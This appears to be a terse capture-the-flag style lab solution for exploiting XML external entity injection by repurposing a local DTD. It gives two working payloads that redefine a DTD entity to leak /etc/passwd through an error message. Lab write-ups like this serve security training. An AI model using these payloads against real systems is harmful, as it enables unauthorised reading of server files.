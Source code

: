 # Exploiting XXE to retrieve data by repurposing a local DTD

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

## You'll need to reference an existing DTD file on the server and redefine an entity from it.

## Hint

## Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

### step1

```bash
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "
<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

### step2

## Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

step3

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

send reuest
